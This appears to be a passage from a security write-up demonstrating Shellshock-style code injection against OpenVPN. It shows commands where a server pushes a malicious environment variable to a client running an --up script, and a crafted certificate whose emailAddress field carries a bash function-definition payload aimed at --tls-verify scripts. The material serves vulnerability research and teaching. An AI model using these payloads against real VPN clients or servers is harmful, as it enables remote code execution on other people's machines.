 The client needs to *pull* the variables and execute some external script.

I chose ``--up`` but other should work

```shell
$ openvpn --config vpn-cli.conf --up env.sh --script-security 2 --pull   # byexample: +stop-on-silence +timeout=5
<...>

$ [ -e pwned ] && echo "you've been pwned"
you've been pwned

```



The ``setenv-safe`` sets an environment variable with a safe name (prefixed
with ``OPENVPN``) but the trick is not in the name but in its content.

The client will execute a shell script (needs at least ``--script-security 2``)
and the malicious env var will be pushed to the client, executed and exploited.


### X509 param

This one is tricky.

All the scripts that OpenVPN can execute receive a *remapped* version of the
environment variables.

Depending of the variable the remap allows more or less character but
in any case the remap process destroys the magic runes.

But the are exceptions: ``password`` as it was mentioned before
and ``X509_{n}_{m}``.

When a endpoint uses an external script to validate the TLS identity
through ``--tls-verify``, it receives an environment variable for each
part of the ``Subject`` of the both certificates: the client's and
the server's.

Here the server sets up an evil certificate:

```shell
$ openvpn --config vpn-srv.conf --cert evil.crt --key evil.key  >/dev/null &
<...>

```

The malicious certificate has a crafted ``emailAddress`` inside
of the ``Subject`` that has the incantation.

```shell
$ openssl x509 -in evil.crt -text
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 2 (0x2)
    Signature Algorithm: sha256WithRSAEncryption
        <...>
        Subject: C=KG, ST=NA, <...>emailAddress=() { :;}; /bin/cp /bin/cp /
<...>

```
